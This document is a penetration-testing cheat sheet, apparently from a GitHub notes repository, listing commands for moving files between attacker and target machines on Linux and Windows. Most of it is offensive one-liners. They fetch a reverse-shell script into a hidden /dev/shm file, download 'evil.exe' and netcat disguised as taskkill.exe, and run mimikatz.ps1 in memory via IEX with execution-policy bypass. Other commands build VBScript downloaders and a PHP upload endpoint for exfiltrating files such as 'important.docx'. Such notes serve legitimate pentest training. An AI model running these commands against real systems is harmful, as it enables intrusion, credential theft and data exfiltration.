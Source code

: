 # ⭕ HTTP

#### Linux

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```

#### Windows

```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

## Linux HTTP Server

```
python -m SimpleHTTPServer 80
python3 -m http.server 80
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

## Python HTTPS Server

```python
# from https://gist.github.com/dergachev/7028596
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://localhost:443

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

## HTTP/FTP wget from linux

```
wget http://ip-addr[:port]/file[-o output-file]
```

#### A lesser known usage of wget is its ability to download FTP files as well. To do that, simply prepend a ftp:// before the URL. If the FTP server needs credentials, specify them with --ftp-user=username and --ftp-password=pass.

## HTTP powershell from windows

#### oneliner command:

```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

#### powershell script:

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

#### to run the script:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### download and execute a PowerShell script without saving it to disk ( only for powershell scripts)

```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```

or

```
(new-object System.Net.Webclient).DownloadString('http://192.168.50.34:8080/mimikatz.ps1') | IEX
```

## http VBscript from windows

#### run these commands in order to create a vbscrtipt for downloading a file

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```

#### To run our wget.vbs script

```
cscript wget.vbs http://ip-addr:port/file output-file
```

## Windows Uploads Using Windows Scripting Languages

#### since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShell class to upload data to our Kali machine through an HTTP POST request create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

#### in windows:

```
C:\Users> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

## Upload Files

#### python script

[https://gist.github.com/UniIsland/3346170](https://gist.github.com/UniIsland/3346170)
